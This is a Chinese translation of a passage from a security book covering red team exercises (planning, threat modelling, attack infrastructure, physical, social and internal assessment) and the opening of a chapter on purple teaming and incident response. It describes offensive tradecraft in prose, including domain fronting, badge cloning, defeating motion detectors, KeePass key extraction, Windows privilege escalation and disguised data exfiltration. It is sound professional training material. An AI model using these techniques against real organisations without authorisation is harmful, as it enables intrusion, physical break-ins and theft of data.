克服限制可能需要一些创造力和协作，但可以使用多种策略。如果范围有限且不允许测试特定的关键系统，那么也许可以使用测试或 QA 实验室，在那里的测试可能会产生与在生产环境中发现的结果相似的结果。

可以通过使用称为“*白卡*”的概念来克服限制，这是为帮助克服限制而设计的评估模拟部分。通常假设至少有一个用户会点击钓鱼邮件，因此白卡方法是模拟用户点击钓鱼邮件，从而让红队进入环境。诚然，钓鱼不是进入环境的唯一方式；白卡可用于模拟恶意内部人员、勾结、将受攻击资产带入组织、通过可信供应商的后门访问等等。

## 沟通

红队演练的持续时间差异很大。为每次演练确定最合适的沟通节奏非常重要。例如，如果您正在进行为期 12 个月的红队评估，可能希望将演练分为 3 个月的测试和沟通周期。这样可以让红队有三个月时间执行攻击模拟。三个月测试周期结束后，蓝队将受到简报，然后可以根据所学内容开始研究和实施改进——前提是红队与蓝队之间的沟通由白队促进。在大多数情况下，白队会确保红队和蓝队之间不发生交互，而是在测试周期结束时将两支团队聚在一起。

## 规划会议

红队和蓝队将在白队的支持下，在一系列规划会议期间共同工作。红队评估规划会议最初从概念性讨论开始，最终导致在评估开始前完成的详细计划。

规划从对红队评估的目标、断言和交战规则的高层次描述开始。这些项目将被细化并最终确定，并且应需要红队负责人以及参与评估的其他团队负责人的签字。

规划会议将概述红队评估的不同组成部分。讨论点应包括以下内容：

- 除了技术测试之外，是否会进行桌面演练？
- 涉及哪些类型的场景？
- 将创建哪些类型的交付成果以及频率如何？
- 将测试哪个环境？

取决于评估的性质，评估团队可能会被提供没有任何技术信息或大量技术信息，例如架构和网络图、数据流等等。

还需要考虑后勤事项，包括以下内容：

- 是否会进行现场工作？
- 为支持现场工作，需要解决哪些类型的签证、翻译、交通和出行事项？

会议应产生行动项、总体评估时间表、交付成果的目标日期，并确定每个团队的联系人 (POC)。

## 定义可衡量事件

对于攻击循环中的每个步骤，应测量一组活动以确定以下内容：

- 活动是否对蓝队可见
- 蓝队最初检测到活动所需的时间
- 蓝队开始响应活动所需的时间
- 修复事件所需的时间

红队和蓝队都必须密切跟踪自己的工作。沟通频率取决于多种因素，但通常信息将


至少每三个月更换一次，并且通常更频繁，具体取决于测试周期的持续时间。文档在红队评估期间至关重要。红队和蓝队通常会持续向白队提交信息。

## Red Team

拥有测试活动日志至关重要。准确跟踪某些操作执行的日期和时间，使组织能够确定哪些红队活动被检测到了，更重要的是，哪些没有被检测到。在评估的每一天，红队都应该记录其测试活动、执行时间、具体执行的操作以及测试结果。

除了创建交付成果来报告红队的努力之外，记录测试活动也是必不可少的。红队应该能够确定是谁或什么对环境进行了操作，具体做了什么，以及每次测试操作的结果。这意味着应该维护来自每个红队系统和工具的日志。

## Blue Team

蓝队应始终跟踪其响应活动。这包括被分类为事件的事件、被分类为误报的事件，以及被分类为低严重性的事件。一旦蓝队的文档与红队的测试活动同步，将执行一次分析。该分析将确定哪些防御策略有效，哪些无效，以及哪些事件被错误分类——例如，被判定为低或中等严重性的事件，但实际上应被视为高优先级。一些组织只跟踪成为安全事件的事件。这是一个错误。能够回溯并理解某事为何被标记为误报或被不当分类非常重要。

## Understanding Threats

如前几章所述，了解你的敌人是定义战术和创建现实模拟的关键。目标是基于历史上下文开发预警系统。了解过去谁攻击过你以及他们使用了什么工具和战术，对于理解如何最好地保护你的组织至关重要。上下文通常通过宏观视角和了解谁在攻击你的行业及竞争对手来获取。现在鼓励同一行业内的公司之间共享信息，行业特定的威胁信息流可以成为宝贵的信息来源。

对过去攻击过你组织的对手进行分析至关重要。谁在针对你？他们的动机是什么？他们通常如何操作？你遭受过哪些恶意软件攻击？过去还尝试过哪些其他攻击向量？对对手的分析可以帮助你确定可能攻击的潜在影响。理解威胁还可以帮助你测试盲点并确定应对它们的最佳策略。了解你是否受到复杂的国家行为体、竞争对手、黑客活动家或有组织犯罪的针对性攻击很重要。你的红队方法将根据对手的简档和能力进行定制。

同样重要的是要了解具体针对的是什么。传统的威胁建模可以在这里提供帮助。威胁建模帮助你应用结构化方法来应对最可能的威胁。威胁建模通常始于识别必须保护的资产。你的关键业务系统是什么？环境中存在哪些敏感信息？你的关键和敏感数据流是什么？

接下来，你需要评估在红队演练中针对的资产的当前架构。如果这些演练是企业范围的，那么必须了解整个环境，包括信任边界以及进出环境的连接。如果红队演练针对特定的数据集或应用程序，也适用同样的原则。对于产品或应用程序，所有组件和技术都需要记录下来。

分解架构是文档编制的关键。使用了哪些底层网络和基础设施组件？分解环境或应用程序将使你能够发现其设计或部署中的缺陷。有哪些信任关系在起作用？哪些组件与目录服务、事件日志、文件系统和 DNS 服务器等安全资源进行交互？

使用威胁模板记录所有已识别的威胁及其相关属性。开放 Web 应用程序安全项目（OWASP）有一个出色的威胁风险模型，它使用 STRIDE，一种用于描述已知威胁的分类方案，涉及所使用的利用类型或攻击者的动机，以及 DREAD，一种用于量化、比较和优先排序每个评估威胁所呈现的风险量的分类方案。⁶ 创建一个对威胁进行评级的系统将帮助你完善测试方法论。

## Attack Frameworks

使用攻击框架是规划红队活动攻击部分的最全面的方法之一。有几种攻击框架和列表可用，可以成为红队的绝佳资源。最有用的一个之一是 Mitre 对抗策略、技术与通用知识（ATT&CK）矩阵。⁷ Mitre ATT&CK 矩阵有多种侧重点，包括针对 Windows、Mac 和 Linux 系统的特定矩阵，以及针对企业的矩阵。矩阵类别包括持久性、权限提升、防御规避、凭据访问、发现、横向移动、执行、收集、数据外泄和命令与控制（C2）等攻击类别。

通常，建议安全工作应基于行业框架或标准。当你可以站在巨人的肩膀上时，就没有必要重新发明轮子。将你的工作建立在框架之上，会为你的工作增加可信度，并确保你的攻击列表融入了众多贡献者的意见。攻击信息的另一个著名来源是经得起考验的 OWASP 攻击列表。⁸ OWASP 攻击列表包含资源协议操纵、日志注入、代码注入、盲 SQL 注入等攻击类别。

关于网络攻击的讨论很少不提到由洛克希德·马丁公司开发的网络杀伤链框架。该框架基于这样一个事实：网络攻击通常遵循类似的模式——侦察、武器化、投递、利用、安装、命令与控制（C2）以及实现目标——其理念是，如果你能打断攻击链，就能挫败攻击者的企图。网络杀伤链框架还有一个相应的对策组件。其目标是检测、拒绝、干扰、降级或欺骗攻击者并打断攻击链。

## Testing Environment

在模仿坚定的对手时，以多种方式保护你的测试环境非常重要。让我们从基础开始。保持你的测试基础设施更新并打补丁。蓝队最终会试图关闭你，但坚定的对手会预料到这一点，并使用几种方法进行防御。

使用重定向器保护你的测试基础设施。重定向器通常是代理，用于查找特定值，并且只重定向满足特定条件的流量。蓝队很难弄清楚重定向器在寻找什么，从而提供基本的抽象层。重定向器有多种形式。Cobalt Strike 的创建者 Raphael Mudge 在他的 *正在进行的红队行动基础架构* 博客中提供了关于重定向器以及大量其他有用信息的优秀资料。⁹

请务必根据功能对测试基础设施资产进行隔离，以最大限度地减少重叠。在每个主机前面放置重定向器——绝不要让目标直接接触后端基础设施。通过将主机分布在提供商、区域等来最大限度地提高冗余度。在整个测试过程中监控所有相关日志。保持警惕，并彻底记录你的设置！

你可以使用“直通管道”或“智能”重定向器。直通管道重定向器将点 A 的所有流量重定向到点 B。智能重定向器会有条件地将各种流量重定向到不同的目标，或者完全丢弃流量。重定向器可以基于多种 HTTP 重定向方式，例如使用 iptables、socat 或 Apache mod_rewrite。Apache mod_rewrite 可以配置为仅允许白名单 URI 通过。无效的 URI 将导致重定向到看似良性的网页，如图所示。




DNS 重定向器也可以使用 socat 或 iptables 设置。同样，域前置可用于将流量路由到高可信域，例如 Google App Engine、Amazon CloudFront 和 Microsoft Azure。可以使用域前置将流量路由到合法域，包括 .gov 顶级域（TLD）！

## 自适应测试

虽然隐蔽活动是红队评估的重要组成部分，但采用自适应测试方法也大有裨益。红队演练中的隐蔽活动高度模拟高级对手的行为。然而，自适应测试认为，模拟不那么成熟的对手也很有价值——这些对手比其他对手更容易被检测到。

由于长期的红队评估允许进行测试周期，组织可以为其工作设定一定的节奏，以融入“自适应测试”视角，并从笨拙、喧闹的攻击转向隐蔽、静默的测试活动。例如，可以进行为期三个月的测试周期，活动从容易检测逐步过渡到难以检测。三个月周期结束后，可以进行总结会议和事后分析，蓝团队可以了解测试活动在何时停止被检测到或停止“出现在其雷达上”。然后蓝团队将使用这些信息来成熟其检测能力。接下来的三个月周期可以开始，让蓝团队有机会测试其所做的改进。

可以使用许多不同的策略来实施自适应方法。你可以先发起大规模钓鱼活动来测试组织的响应情况，然后转为更安静的鱼叉式钓鱼攻击。扫描活动可以先采用激进的扫描策略，再转为低速慢扫描方法。

## 外部评估

当听到渗透测试或红队演练这两个术语时，许多人会自动想到边界安全评估。虽然它不是红队演练的唯一组成部分，但对边界进行对抗模拟非常重要。当我想到以外部为重点的红队演练时，我会想到理解世界上任何地方的不法分子可以用计算机做什么的重要性。

大多数红队活动将结合使用工具扫描环境以获取信息，然后使用手动测试活动和利用程序来利用已识别的弱点。但这只是外部评估的一部分。同样重要的是要记住，红队演练可以包含“近场”组成部分，即红团队可以亲自到场执行攻击。除了可通过互联网访问的资源外，红团队还应确保查找组织无线环境中的弱点，以及与移动技术如何连接到组织技术资产相关的漏洞。

外部评估可以针对任何面向边界的 IT 资产进行，包括电子邮件服务器、VPN、网站、防火墙和代理服务器。通常，组织会暴露一些不打算暴露给互联网的内部协议，例如远程桌面协议（RDP）。

## 物理安全评估

保护对组织设备和网络的物理访问与任何其他安全控制同样重要。许多红队演练发现，锁、门、摄像头系统和徽章系统的实施存在问题。许多组织无法分辨易开锁和优质门锁及防护板之间的区别。开锁是大多数红团队都会掌握的技能，因为开锁是一种相对容易学习的技能，能够获得无与伦比的目标访问权限。

当有人走过时，运动探测器通常会打开或解锁门。这项功能也为试图进入组织的攻击者提供了便利。许多红队评估人员操纵运动探测器以获得物理访问权限。这可以像把信封贴在衣架上，把它滑到两扇门之间，然后晃动它以触发门另一侧的运动探测器一样简单。压缩空气也可用于触发运动探测器。

许多物理安全徽章缺乏加密。红队评估人员的惯用伎俩是弄一个徽章克隆器，然后去当地咖啡店或熟食店，排队站在持有物理安全徽章的员工身后。徽章克隆器价格低廉，使用它只需站在目标三英尺以内，即可克隆其徽章并获得组织设施中相同级别的物理访问权限。

摄像头系统通常存在盲区，或者分辨率太差，以至于车辆车牌在摄像头拍摄时无法辨认。触摸锁很少更改密码。磨损通常会导致褪色，因此仅仅看一眼锁就能揭示密码中使用的四个数字。然后攻击者只需按正确顺序输入这四个数字即可。

破坏环境物理安全的可能性是无限的，与红队活动一样，只受你想象力的限制。

### 社交工程

人类永远是你安全计划中最薄弱的环节。他们远远是红团队最容易攻击的目标。人类可以通过钓鱼电子邮件、USB 驱动器、电话和面对面方式被攻击。考虑购买包含摄像头的廉价笔或眼镜，并为你的客户或组织回放面对面社交工程尝试的视频。

钓鱼电子邮件可以制作得非常高质量，具有伪造的电子邮件地址和逼真的外观和感觉。查看用户如何回应制作粗糙、带有通用问候语和拼写错误的电子邮件也很有好处。钓鱼的两个组成部分是交付和执行。对象链接和嵌入 (OLE)、.iso 文件或 ISO 映像、超链接和电子邮件附件是常见的有效载荷交付机制，而 .lnk 文件、VBScript、JavaScript、URL 和 HTML 应用程序 (HTA) 是常见的有效载荷。

当试图收集目标信息时，不要低估为社交网络或其他用途开发在线角色的效果。猫钓鱼是一个术语，描述在线创建有吸引力的个人资料，然后有选择地与目标建立联系。互联网的匿名性意味着人们需要对新的网络朋友保持警惕。例如，人们也往往通过技术论坛泄露令人惊讶的大量信息。

最后，不要害怕在众目睽睽之下隐藏。考虑执行一项有些喧闹的攻击，其目的是被发现，作为你使用不同策略实施的隐蔽攻击的干扰。

### 内部评估

令我惊讶的是，组织有时仍然需要被说服认识到以内部为重点的红队评估的价值。内部评估可以模拟恶意内部人员、一段恶意软件或已获得物理访问权限的外部攻击者。内部评估是衡量你的防护如何应对已进入网络的人的绝佳方法。

如果一个人没有凭证但可以访问网络端口，只要环境配置不正确，就可以获取大量信息。当你可以接入网线时，各种中间人攻击都可能很有成效。SMB 中继攻击和 Windows 代理自动发现 (WPAD) 攻击始终能有效导致凭证收集、特权升级，并经常导致企业被攻破。

一旦代码在用户的桌面会话中运行，就有多种机制可以在机器上安装键盘记录器或捕获屏幕截图。使用 Cobalt Strike 的 Beacon 是一种非常可靠的方法。自定义编写的 Start-ClipboardMonitor.ps1 将以特定间隔监控剪贴板中复制文本的变化。KeePass 是一款流行的密码保管箱，有多个攻击向量（包括 KeeThief，由 @tifkin_ 和 @harmj0y 创建的兼容 PowerShell 版本 2.0 的工具包），可以从已解锁数据库的内存中提取关键材料。但是，KeePass 本身包含一个事件条件-


存储在 KeePass.config.xml 中的触发系统，无需恶意软件即可被滥用。

一旦获得凭据，采用低技术或人工方法也能为红团带来丰硕成果。仅仅浏览公司的文件共享，由于过于宽松的设置和缺乏数据加密，就能发现大量信息。虽然有些红团有能力开发自己的复杂工具，但现实是，在许多情况下，开发定制工具所需的投资不值得回报。事实上，使用不会触发警报的工具融入环境的做法被称为“陆地求生。”10 “陆地求生”可能包括使用 wmic.exe、msbuild.exe、net.exe、nltest.exe，以及一向有用的 Sysinternals 和 PowerShell。

还可考虑针对桌面上可能拥有本地管理员权限的用户群体。组织的开发人员通常被视作 VIP，其系统上的安全控制较少。组织的 IT 团队也是如此。许多 IT 人员仍使用其域管理员账户进行日常操作，且不明白应谨慎使用该账户。还可考虑针对可能绕过用户安全意识培训的群体。组织的高层领导经常是攻击者的目标，而讽刺的是，这些人最先申请豁免安全培训。

权限提升方法过去侧重于将权限提升至本地管理员。

然而，组织已意识到允许所有人充当本地管理员的风险。类似 PowerUp 的工具——一个自包含的 PowerShell 工具，可自动化利用多种常见的权限提升配置错误——非常适合用于提升权限。可用的权限提升选项很多，包括手动操纵服务以修改 binPath 来触发恶意命令、利用与服务关联的二进制文件的配置错误权限、%PATH% 劫持，以及利用 DLL 加载顺序，仅举几例。

搜索未受保护的虚拟机备份。在普通文件服务器上能发现的东西令人惊讶。在许多组织中，使用默认凭据仍然是一种行之有效的获取访问权限的方法。

从环境中外传数据时，首先要确保已通过评估的交战规则获得授权。然后寻找创造性的方法将数据从环境中移出。例如，一些红团评估人员曾将其数据伪装成异地备份数据。

## 经验教训

作为红团项目一部分的事后复盘练习通常非常详细，并高度强调知识转移。红团评估需要高度关注“边做边记录”，以捕获所有信息，使组织能够对有效运作和需要重新设计的内容进行详细分析。这种评估后分析通常称为 _行动后报告_ (AAR)。

AAR 应包含不同角度的经验教训。记录做得好的地方也很重要。对哪些工具和流程有效的详细了解，可以帮助组织在未来工作中复制这种成功。包含不同视角还意味着从不同团队和来源捕获信息。“经验教训”可能来自意想不到的来源，AAR 获得的投入越多，重要观察被遗漏的可能性就越小。

AAR 应由组织领导使用，以制定战略计划，并为需要解决的特定控制缺口制定补救计划。

## 摘要

红团演习是隐蔽的道德黑客演习，蓝团未获预先通知。这些演习让蓝团能够保护目标，并让组织能够衡量其控制和响应流程在紧密模拟真实攻击的模拟情况下的表现。红团演习限制了红蓝团队之间的沟通和交互。它们最有利于拥有成熟安全计划、在建立和测试安全控制方面投入了大量精力的组织。仍在构建安全计划并完善其安全控制和流程的组织，可能更能从紫团演习固有的协作和沟通中受益，紫团演习将在下一章中介绍。紫团演习非常适合使组织达到准备好应对红团演习隐蔽性质的程度。

## 参考文献

- 1. Carl von Clausewitz, 《战争论》, 1832. 有关更多信息，请参阅 https://en.wikipedia.org/wiki/On_War.
- 2. 国防部指令 (DoDD) 8570.1, 2004 年 8 月 15 日, https://static1.squarespace.com/static/5606c039e4b0392b97642a02/t/57375967ab48...
- 3. 美国军事联合出版物 1-16: “国防部军事及相关术语词典,” 联合出版物 1-02, 2011 年 1 月 31 日, www.people.mil/Portals/56/Documents/rtm/jp1_02.pdf; “多国行动,” 联合出版物 3-16, 2013 年 7 月 16 日, www.jcs.mil/Portals/36/Documents/Doctrine/pubs/jp3_16.pdf.
- 4. Jason Kick, “网络演习剧本,” The Mitre Corporation, 2014 年 11 月, https://www.mitre.org/sites/default/files/publications/pr_14-3929-cyber-exercise-playbook.pdf.
- 5. Justin Warner, Common Ground 博客, https://www.sixdub.net/?p=705.
- 6. “威胁风险建模,” OWASP, https://www.owasp.org/index.php/Threat_Risk_Modeling.
- 7. 对抗策略、技术与通用知识, ATT&CK, Mitre, https://attack.mitre.org/wiki/Main_Page.
- 8. 类别:攻击, OWASP, https://www.owasp.org/index.php/Category:Attack.
- 9. Raphael Mudge, “持续红团行动的基础设施,” Cobalt Strike, 2014 年 9 月 9 日, https://blog.cobaltstrike.com/2014/09/09/infrastructure-for-ongoing-red-team-operations/.
- 10. Christopher Campbell 和 Matthew Graeber, “陆地求生: Windows 后利用极简指南,” DerbyCon 2013, www.irongeek.com/i.php?page=videos/derbycon3/1209-living-off-the-land-a-minimalist-s-guide-to-windows-post-exploitation-christopher-campbell-matthew-graeber.

## 第 8 章

## 紫团协作

> 知彼知己，百战不殆；知己不知彼，每胜必辱；不知彼不知己，每战必败。
>
> 孙子, _战争艺术_<sup>1</sup>

紫团协作可能是组织为成熟其安全态势所能做的最有价值的事情。它使防御安全团队（即您的蓝团）和进攻安全团队（即您的红团）能够协作并共同工作。这种攻防协作创造了一个强大的持续改进循环。紫团协作就像与对手实战演练，而不是对着影子练拳。在紫团协作中使用的技能和流程的精炼，只有在实际高严重性事件中获得的经验才能与之媲美。紫团协作将您的红团和蓝团的努力合并在一个故事中，最终目标是成熟组织的安全态势。

在本章中，我们将从不同角度讨论紫团协作。首先，我们介绍紫团协作的基础知识。接下来，我们讨论蓝团运营。然后，我们将更详细地探讨紫团运营。最后，我们讨论蓝团如何在紫团演习中优化其工作。

本章将讨论以下主题：

- 紫团协作简介
- 蓝团运营
- 紫团运营
- 紫团优化与自动化

### 紫团协作简介

协作是紫团协作的核心。紫团协作的目标是让红蓝团队在演习中密切合作，分别攻击和防御特定目标，从而提升两个团队的技能和流程。这与红团演习大不相同，在红团演习中，红蓝团队在大部分演习期间的沟通受到限制和禁止，且红团通常对目标了解甚少。在紫团协作演习中，红团将攻击特定目标、设备、应用程序、业务或运营流程、安全控制等，并与蓝团合作以理解并帮助改进安全控制，直到攻击能够被检测和预防，或者至少能够被有效检测和解决。在阅读本章之前阅读第 7 章至关重要，因为本章建立在第 7 章的内容之上。

我见过有些人将紫团协作的概念与白团（white cell 或 white team）的角色混淆。如前一章所述，白团负责


红队与蓝队之间的通信并提供监督和指导。白团队通常由关键利益相关者和推动项目的人员组成。白团队不是技术团队，不攻击或防御目标。紫团队不是白团队。紫团队是一支由攻击者和防御者组成的技术团队，他们基于预定义的交战规则共同工作以攻击和防御目标。然而，他们确实会与白团队（他们的项目经理、业务联络人和关键利益相关者）合作。

紫团队演练不必是一项庞大而复杂的操作。它可以从简单开始：蓝团队的一名成员与红团队的一名成员合作，测试并加固特定的产品或应用程序。虽然我们会讨论如何利用紫团队演练来更好地保护企业，但从小处开始也是可以的。没有必要贪多嚼不烂。紫团队演练不需要庞大的团队，但确实需要一支技能成熟的团队。如果你让你最好的蓝团队成员与你最好的红团队成员合作，你就可以坐下来观看奇迹发生。

许多组织在开展紫团队演练工作时，会先专注于特定类型的攻击（例如，网络钓鱼）。最重要的是从可实现的目标开始。例如，目标可以是专门测试和提升蓝团队的技能集，或提高应对特定类型攻击的能力，例如拒绝服务（DoS）攻击或勒索软件攻击。然后，针对每个目标，紫团队演练将专注于改进和优化流程或控制措施，直到其符合该特定工作中概述的成功标准。

紫团队演练的美妙之处之一在于能够考虑过去的攻击，并让安全团队练习“另一种结局”。重现针对过去攻击的不同响应的紫团队演练具有“选择你自己的冒险”般的外观和感觉，在帮助决定未来最佳行动方案方面非常有效。紫团队演练应鼓励蓝团队和红团队将当前标准操作程序（SOP）作为指南，但应允许响应人员保持灵活性和创造性。紫团队演练提供的大部分价值在于，它要求你的防御者练习做出即兴决策。目标是执行模拟，以便让你的团队有机会将事件事后分析阶段中经常提及的“经验教训”付诸实践，从而鼓励进一步反思和成熟的决策。

我们在第 7 章中讨论了红团队演练。第 7 章中的大多数主题也适用于紫团队演练。当然，存在一些差异，但许多相同的考虑因素仍然适用。例如，设定目标、讨论沟通频率和交付成果、规划会议、定义可衡量事件、理解威胁、使用攻击框架、对测试采取自适应方法以及捕获经验教训，都适用于紫团队演练。在紫团队演练期间，红团队与蓝团队协作并进行交互，这一事实将影响工作的计划和执行方式。本章首先讨论蓝团队演练的基础知识，然后逐步探讨红团队和蓝团队在紫团队演练中协作时优化其工作的方式。

## 蓝团队运营

世界上最优秀的网络防御者已接受超越每一名攻击者的挑战。² 安全运营企业并非易事。正如我们在新闻中所见，保护性和侦测性安全控制失效的方式多种多样。优化响应和从网络事件中恢复的方式也多种多样。在保护组织免受网络威胁和团队成员可能犯下的错误的同时，确保其能够实现业务目标，这种平衡是在战略安全规划与明确定义的运营安全实践相一致时实现的。在开始讨论紫团队演练和保护环境免受网络威胁的高级技术之前，我们将先讨论防御的基础知识。

尽管追捕坏人听起来既令人兴奋又光鲜亮丽，但网络防御中有许多方面远不那么光鲜。为保护环境免受网络威胁而进行的规划、准备和加固工作是安全中最不受重视、最容易被忽视的方面，但它们是必要且重要的。我的意图是概述安全计划的一些重要基础方面，以便你可以在此处提供的信息基础上进行构建。其目的是为你打下基础，让你将蓝团队知识与紫团队演练的信息相结合，从而播下种子，并为你提供关于框架、工具和方法论的资源，使你的紫团队演练工作拥有适当的背景。

## 了解你的敌人

拥有关于过去是谁攻击过你的相关信息，将有助于你确定工作优先级。不言而喻，最相关的一些信息将是关于过去攻击和攻击者的内部信息。还有免费的外部信息源，例如威胁情报馈送。此外，许多商业产品都配备了威胁情报馈送。过去的妥协指标（IOC）和威胁情报收集的信息可以被收集并存储，以便分析针对环境的攻击趋势。这些信息反过来可以为防御策略提供依据，包括剧本、控制措施的选择和实施以及测试。

许多事件将源于组织内部。只要人类参与公司运营，人为错误就会始终占据某些安全事件的比例。还有内部威胁，即使用有效凭证发生数据外泄。内部威胁可以是不满的员工，也可能是受到勒索或收钱而恶意行事的人员。通过叠加内部威胁计划来补充你的安全计划，将有助于你准备防范内部威胁。最好的准备是专注于内部威胁的紫团队工作。存在调查内部威胁安全事件中人为因素的组织，无论其根源在于人为错误、人为妥协还是人为恶意。

## 了解你自己

控制环境意味着比你的对手更了解它。

控制你的技术环境始于对硬件、软件和数据（尤其是敏感/受保护/专有数据及数据流）的细粒度库存信息。这意味着对系统或环境在特定时间点的进程、数据流和技术组件有准确的了解。除了拥有关于环境的详细信息外，控制它的能力还意味着防止未经授权的更改和添加，或者至少快速检测并解决它们。它甚至可能能够突出显示库存和配置实践与预期不符的地方。这些在安全领域是熟悉的概念。拥有经过批准的安全构建并防止对其进行未经授权的更改，应是大多数组织的标准做法。

保持对环境更高控制水平的另一个考虑因素是尝试限制或禁止人类/用户与其交互。这在云环境中尤其有效。考虑使用工具创建无头构建，使用命令行而不是用户界面（GUI），并编写脚本和自动化活动，以便用户通常不与环境交互。Terraform 是一个开源项目，它使用基础设施即代码（IAC）的概念来描述使用代码定义基础设施，该代码可以创建配置文件，并像任何其他代码一样共享、编辑和版本控制。

为紫团队演练做准备在某些情况下可能与红团队演练有所不同，即在紫团队演练期间，有时会向红团队共享更多信息。在界定紫团队任务范围时尤其如此。通常会采访熟悉测试目标的人员，并向红团队共享系统文档和数据流。这使红团队能够精细调整其测试工作，并识别需要考虑的行政角色、威胁模型或其他信息，以界定任务范围。

## 安全计划

将安全团队需要履行的众多重要功能进行组织，最好的做法是与安全框架保持一致。没有必要重新发明轮子；事实上，我不鼓励任何组织开发一个与像美国国家标准与技术研究院（NIST）网络安全框架或国际标准化组织（ISO）27001 和 27002 框架这样经过验证的框架完全不同的框架。这些框架是在许多专家的参与下随时间发展而来的。

现在，我并不是说这些框架不能被调整和扩展。事实上，我经常对其进行调整，为组织创建定制版本。只是要警惕删除框架的整个部分或子类别。当我看到安全计划评估中某个整个领域被标记为“不适用”（N/A）时，我通常会非常担心。通常明智的做法是补充框架的基本内容，以添加


能够让组织定义优先级和成熟度水平的信息。我喜欢在框架之上叠加能力成熟度模型（CMM）。这使你能够至少识别安全计划各个方面的当前状态和目标状态。紫队演习可以帮助评估安全计划所需控制措施的有效性，也可以帮助发现其中的缺陷和疏忽。

## 事件响应计划

成熟的事件响应（IR）计划是构建紫队计划所必需的基础。成熟的流程确保攻击能够被检测到，并及时、高效地做出响应。紫队工作可以通过专注于事件响应的特定领域，直到检测、响应和最终恢复时间得到改善，从而帮助成熟你的 IR 计划。对于良好的 IR 流程，就像安全的许多其他领域一样，最好使用像 NIST 的《计算机安全事件处理指南》（SP 800-61r2）这样的行业标准。在阅读文档的每个部分时，尝试理解如何将其信息应用到你的环境中。NIST《计算机安全事件处理指南》定义了 IR 生命周期的四个阶段：

- 准备
- 检测与分析
- 遏制、根除与恢复
- 事件后活动

强烈建议将本指南作为 IR 计划的基础。如果你的 IR 计划以 NIST《计算机安全事件处理指南》为基础，你将涵盖资产管理、检测工具、事件分类标准、IR 团队结构、关键供应商和服务级别协议（SLA）、响应工具、带外通信方式、备用会议地点、角色和职责、IR 工作流、遏制策略以及许多其他主题。

IR 计划应始终辅以 IR 剧本，剧本是针对特定类型事件中每个角色涉及的分步骤程序。组织为各种事件（包括网络钓鱼攻击、分布式拒绝服务（DDOS）攻击、网站篡改和勒索软件等）制定剧本是明智之举。本章后面我们将讨论自动化剧本的使用。这些剧本应随着通过紫队工作汲取的教训以及 IR 流程的改进而不断完善。

## 威胁狩猎

被动监控效果不够理想。今天和明天的攻击者将需要更主动、更积极的策略，例如威胁狩猎。在威胁狩猎演练中，你的目标是识别并应对那些可能已经绕过你的安全控制并当前处于你环境中的对手。目标是在攻击者完成其目标之前尽早发现他们。在判断对手是否对你的组织构成威胁时，你需要考虑三个因素：能力、意图和造成伤害的机会。许多组织已经在进行某种形式的威胁狩猎，但可能未将其正式化，以使狩猎与组织的战略目标保持一致。

大多数组织的威胁狩猎能力始于一些提供自动警报且很少或没有定期数据收集的安全工具。通常，你首先使用尚未进行太多定制的标准程序。下一步通常是添加威胁情报源并增加数据收集。一旦开始常规威胁狩猎，你就开始真正定制自己的程序。随着威胁狩猎计划的成熟，你将收集越来越多的数据，并将其与威胁情报源相关联，从而为你提供真正的威胁情报。进而，这将基于特定于你环境的威胁情报，实现有针对性的狩猎。

从你的环境中收集的日志、系统事件、NetFlow、警报、数字镜像、内存转储及其他数据对威胁狩猎过程至关重要。如果没有可分析的数据，那么你的团队即使拥有先进的技能和一流的工具也无济于事，因为他们的视角受限于可分析的数据。一旦拥有适当的数据，威胁狩猎团队最受益的是确保他们拥有使用机器学习并具有良好报告能力的优秀分析工具。因此，一旦你建立了程序并拥有用于威胁狩猎的适当工具和信息，蓝队就可以在红队和紫队演练中有效地为红队进行狩猎。

## 数据源

成熟的威胁狩猎能力要求必须对大型数据集进行异常和模式挖掘。这就是数据科学发挥作用的地方。大型数据集是由不同类型的警报、日志、图像和其他数据产生的，这些数据可以提供关于你环境的有价值安全信息。你应该收集所有生成日志的设备和软件的安全日志——工作站、服务器、网络设备、安全设备、应用程序、操作系统等等。大型数据集还源于 NetFlow 或完整数据包捕获的存储，以及数字镜像和内存转储的存储。环境中部署的安全工具也会生成大量数据。可从以下安全解决方案收集有价值的信息：防病毒、数据丢失防护、用户行为分析、文件完整性监控、身份和访问管理、身份验证、Web 应用程序防火墙、代理、远程访问工具、供应商监控、数据管理、合规性、企业密码库、基于主机和基于网络的入侵检测/防御系统、DNS、资产清单、移动安全、物理安全和其他安全解决方案。你将使用这些数据来识别针对你组织的攻击活动。确保你的数据源在可能的情况下，将正确且细节充分的数据发送到中央仓库至关重要。为此目的使用的中央仓库通常比向其发送数据的数据源具有更强的保护。同样重要的是确保数据及时、频繁地发送，以便更好地使你的蓝队能够快速响应。

## 事件响应工具

你需要工具来帮助收集、关联、分析和组织你将拥有的大量数据。这时你需要进行一些战略规划。一旦了解你将要处理的数据和数据源，选择用于分析这些系统和数据的工具就会变得更容易。大多数组织首先根据出于合规目的必须记录的数据以及禁止记录的数据来制定策略。你还可以考虑“被遗忘权”法律，例如欧盟（EU）《通用数据保护条例》（GDPR）所要求的法律。然后考虑前一节中提到的数据和数据源，以及任何其他有助于调查的数据源。

了解你为 IR 选择的工具如何协同工作很重要。特别是，与其他工具集成以促进数据自动化和关联的能力非常重要。当然，环境的大小和预算会对你的整体工具策略产生影响。例如，需要汇总和关联大量安全数据。大型企业最终可能会依赖高度定制的解决方案来存储和解析大型数据集，例如数据湖。中型组织可能会选择商业产品，例如安全信息事件管理（SIEM）系统，该系统可与大量组织已使用的各种数据仓库集成。较小的组织、家庭网络和实验室环境可能会选择一些可用的优秀免费或开源工具，作为关联引擎和数据仓库。

